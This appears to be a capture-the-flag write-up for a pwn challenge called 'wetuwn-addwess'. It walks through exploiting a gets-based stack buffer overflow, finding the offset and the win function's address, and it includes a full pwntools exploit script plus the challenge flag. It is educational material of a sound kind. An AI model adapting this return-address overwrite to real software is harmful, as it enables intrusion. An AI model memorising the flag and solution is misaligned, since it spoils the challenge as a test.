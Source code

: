 # wetuwn-addwess

## Challenge

The program asks for our name, then repeats our name and prints the return address.

```
What's your name?
Green-Avocado
Hello Green-Avocado! Let's go to 0x681d73df1b25
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

We have an unsafe call to `gets`, similar to the "owoverflow" challenge.
However, this time there are no other stack variables to overwrite.

If we disassemble the `main` function:

```asm
┌ 205: int main (int64_t argc);
│           ; var char *s @ rbp-0x30
│           ; var file*stream @ rbp-0x8
│           ; arg int64_t argc @ rbp+0x8
```

we see that te variables are arranged as follows:

```
(40) name
 (8) flagfile
 (8) saved RBP
 (8) saved RIP
```

There is no canary, so we can overwrite the saved RBP and RIP.

The saved RIP is important as it determines where to execute instructions from when we return.
Normally, this would be in the caller function.
If we overwrite this saved value, we can choose what address to return to.

The function prints the return address before it returns.
If we write 56 bytes of padding, we can overwrite the saved RIP with the next 8 bytes:

```
$ ./wetuwn-addwess                       
What's your name?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA! Let's go to 0x4141414141414141
```

We successfully controlled the return address and changed it to 0x4141414141414141!

Note that there is a `win` function which prints the flag:

```c
void win() {
    puts(flag);
}
```

If we can change the return address to go to this function, it'll print the flag.
Let's get the address of this function:

Using objdump:

```
$ objdump -t wetuwn-addwess | grep win  
0000000000401216 g     F .text	0000000000000017              win
```

Using radare2:

```
$ r2 wetuwn-addwess
 -- There's a branch for that.
[0x00401130]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00401130]> afl~win
0x00401216    1 23           sym.win
```

Using pwntools:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-addwess')
[*] '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> exe.sym['win']
4198934
>>> hex(_)
'0x401216'
```

Note tha PIE is disabled.
We can use these addresses as is, since the base address won't be randomized.

Let's pack the address of `win` and send it at an offset of 56 bytes:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-addwess')
[*] '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> payload = flat({ 56: p64(exe.sym['win']) })
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess': pid 2172632
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess' stopped with exit code -11 (SIGSEGV) (pid 2172632)
What's your name?
Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa@! Let's go to 0x401216
maple{r3turn_t0_w1n}

[*] Got EOF while reading in interactive
```

We successfully overwrite the return address with the address of our win function and got the flag!

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1339 ret2win
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('wetuwn-addwess')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x30 + 0x8: exe.sym['win'],
    })

io.sendlineafter(b"What's your name?", payload)

io.interactive()
```

## Flag

```
maple{r3turn_t0_w1n}
```

